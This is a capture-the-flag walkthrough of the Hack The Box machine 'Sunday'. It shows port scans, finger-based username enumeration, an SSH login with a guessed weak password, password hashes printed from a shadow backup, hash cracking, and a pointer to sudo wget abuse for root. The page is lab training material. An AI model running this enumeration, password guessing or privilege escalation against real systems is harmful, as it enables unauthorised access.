






# HTB - Sunday

#### Ip: 10.10.10.76
#### Name: Sunday
#### Difficulty: Easy

----------------------------------------------------------------------



### Enumeration

I'll begin enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -p-  10.10.10.76 --min-rate 10000
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:41 CDT
Nmap scan report for 10.10.10.76
Host is up (0.071s latency).
Not shown: 62692 filtered tcp ports (no-response), 2838 closed tcp ports (reset)
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 71.52 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -sC -sV 10.10.10.76 -p 79,111,515,6787,22022                                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:43 CDT
Nmap scan report for 10.10.10.76
Host is up (0.066s latency).

PORT      STATE SERVICE  VERSION
79/tcp    open  finger?
| finger: Login       Name               TTY         Idle    When    Where\x0D
|_sunny           ???            pts/1          1 Thu 19:43  10.10.14.68         \x0D
| fingerprint-strings: 
|   GenericLines: 
|     Login Name TTY Idle When Where
|     sunny ??? pts/1 Thu 19:43 10.10.14.68
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|_    RTSP/1.0 ???
111/tcp   open  rpcbind  2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
| http-title: Solaris Dashboard
|_Requested resource was https://10.10.10.76:6787/solaris/
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=sunday
| Subject Alternative Name: DNS:sunday
| Not valid before: 2021-12-08T19:40:00
|_Not valid after:  2031-12-06T19:40:00
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
22022/tcp open  ssh      OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
```

Its interresting that Finger is open on this box. Lets use PentestMonkey's Finger user enumeration tool to see if we can get some usernames here:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo perl ~/Tools/exploits/finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

Cool, looks like we've got a couple of valid usernames.



### Exploitation

Before trying to bruteforce SSH, I tried just logging in with a username and a couple of basic passwords like root, admin, password, etc. And ended up getting lucky trying sunny:sunday.

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ ssh sunny@10.10.10.76 -p 22022
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (ED25519) to the list of known hosts.
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ whoami
sunny
sunny@sunday:~$ hostname
sunday
```

From here I can grab the user.txt flag in Sammy's home directory:



### Privilege Escalation

Running `sudo -l` to see what we can run with elevated permissions we find an interesting file:

```text
sunny@sunday:/home/sammy$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
sunny@sunday:/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

Unfortunately I'm unable to view or modify the file, but it appears to be printing the id of whoever executes it.

Looking around a bit more I find a folder called `/backup` that contains what appears to be a portion of `/etc/shadow`. Weird. 

```text
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Lets copy this hash back to our attacking box, as well as Sammy's `/etc/passwd` entry, and we can use unshadow and JohnTheRipper to try to crack the hash:



Cool, lets `su sammy` and see what we can find:

```text
sunny@sunday:/backup$ su sammy
Password: 
sammy@sunday:/backup$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, looks like we can run wget as root. Heading over to https://gtfobins.github.io/gtfobins/wget/ we find the exact commands we'll need to exploit this:



Lets run those commands and grab the root.txt flag:



Thanks for following along!

-Ryan
